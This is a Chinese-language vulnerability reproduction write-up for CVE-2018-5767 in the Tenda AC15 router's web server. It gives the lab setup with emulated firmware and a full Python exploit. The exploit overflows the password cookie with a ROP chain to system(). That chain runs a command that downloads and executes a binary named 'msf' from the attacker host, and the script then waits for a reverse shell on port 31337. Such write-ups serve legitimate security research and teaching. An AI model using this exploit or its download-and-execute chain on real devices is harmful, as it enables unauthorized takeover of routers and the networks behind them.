

# Tenda AC15 远程代码执行漏洞（CVE-2018-5767）

## 漏洞环境

- docker：攻击、调试主机：192.168.2.1
- qemu-system：固件主机：192.168.2.2
- httpd（有漏洞 Web 服务器）：192.168.2.2:80
- 镜像依赖：`firmianay/ubuntu1604 -> firmianay/qemu-system:armhf`

使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/US_AC15V1.0BR_V15.03.1.16_multi_TD01.bin"
```

构建并启动漏洞环境：

```sh
# 初始化环境
$ ./init_env.sh arm

# 构建镜像
$ docker-compose -f docker-compose-system.yml build

# 启动容器
$ docker-compose -f docker-compose-system.yml up

# 启动完成后，开启 socks 代理
$ ssh -D 2345 root@127.0.0.1 -p 1234
# 配置浏览器代理，即可登陆 Web 后台 http://192.168.2.2/

# 漏洞利用，根据输出的地址信息修改 libc_base
$ python3 tools/exp.py
```

## 漏洞复现



## Exploit

```py
#!/usr/bin/python3

import requests
from pwn import *
from threading import Thread

cmd  = b'wget http://192.168.2.1:8000/tools/msf -O /msf '
cmd += b'&& chmod 777 /msf '
cmd += b'&& /msf'

assert(len(cmd) < 255)

libc_base = 0x76df3000

system = libc_base + 0x5A270
mov_r0_ret_r3 = libc_base + 0x40cb8
pop_r3 = libc_base + 0x18298

payload  = b'A'*(444) + b'.gif' + p32(pop_r3) + p32(system) + p32(mov_r0_ret_r3) + cmd

url = "http://192.168.2.2:80/goform/execCommand"
cookie = {"Cookie": 'password='+payload.decode('latin1')}

def attack():
    try:
        requests.get(url, cookies=cookie)
    except Exception as e:
        print(e)

thread = Thread(target=attack)
thread.start()

io = listen(31337)
io.wait_for_connection()
log.success("getshell")
io.interactive()

thread.join()
```

## 参考链接

- <https://fidusinfosec.com/remote-code-execution-cve-2018-5767>
- <https://www.freebuf.com/articles/wireless/166869.html>
- <https://wzt.ac.cn/2019/03/19/CVE-2018-5767>
- <https://www.anquanke.com/post/id/204326>
